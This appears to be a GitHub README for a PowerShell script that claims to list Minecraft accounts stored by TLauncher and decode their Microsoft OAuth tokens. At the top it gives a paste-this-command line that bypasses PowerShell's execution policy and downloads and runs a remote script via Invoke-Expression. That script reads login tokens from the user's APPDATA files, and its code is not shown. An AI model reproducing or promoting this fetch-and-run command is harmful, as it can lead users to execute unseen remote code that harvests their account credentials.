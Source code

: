 - **powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/waaz1prod/alts-cheker/main/account-checker.ps1')"**

🔐 **PowerShell Script to Extract and Decode TLauncher Minecraft Accounts with Microsoft Tokens**

This PowerShell script retrieves Minecraft account information from TLauncher and user cache files, and optionally decodes Microsoft OAuth tokens to reveal token claims.

💡 **Functions Included**:
- Decode-Jwt
  - Accepts a JWT (JSON Web Token) as input.
  - Splits the token into header, payload, and signature.
  - Converts the Base64 URL-safe encoded payload into a readable UTF-8 JSON object.
  - Returns the decoded claims from the token.
- Get-TLauncherAccounts
  - Reads the TLauncher profile file located at $env:APPDATA\.minecraft\TlauncherProfiles.json.
  - Iterates through all stored accounts, displaying:
  - Display name
  - UUID
  - Account type
  - Whether a Microsoft token (accessToken or id_token) is present (shown with ✅ or ❌)
  - If a Microsoft token is found, it decodes and displays the JWT claims in a formatted table.
- Get-UserCacheAccounts
  - Searches recursively for usercache*.json files in the .minecraft folder.
  - Parses these files and displays any found account names and UUIDs.

📌 **Execution**:
At the end, both **Get-TLauncherAccounts** and **Get-UserCacheAccounts** are invoked, providing a complete overview of accounts stored locally by TLauncher, including Microsoft login info when available.
